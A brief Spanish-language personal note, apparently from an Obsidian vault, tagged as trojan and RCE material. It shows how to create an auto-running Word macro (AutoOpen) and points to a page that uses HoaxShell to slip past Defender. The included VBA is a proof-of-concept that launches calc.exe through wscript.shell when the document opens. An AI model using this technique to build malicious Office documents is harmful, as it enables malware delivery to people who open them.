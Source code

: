 ----
- tags: #macros #word #excel #microsoft #office #troyano #windows #powerpoint #rce 
---

> En un documento Word vamos a **Vista**, después a **Macros** **Ver Macros**.

![[Pasted image 20240204183006.png|800]]

> Le pondremos de nombre **AutoExec**, **seleccionaremos el documento actual** y haremos clic en **Crear**

![[Pasted image 20240204183345.png]]

> Ponemos nuestro código sacado de esta página donde usan HoaxShell para bypassear Defender (https://infayer.com/archivos/1917) y luego crean una macro en Word con ello.

```
Sub AutoOpen()

    Dim Shell As Object
    Set Shell = CreateObject("wscript.shell")
    Shell.Run "calc.exe"

End Sub
```


![[Pasted image 20240204183538.png|800]]







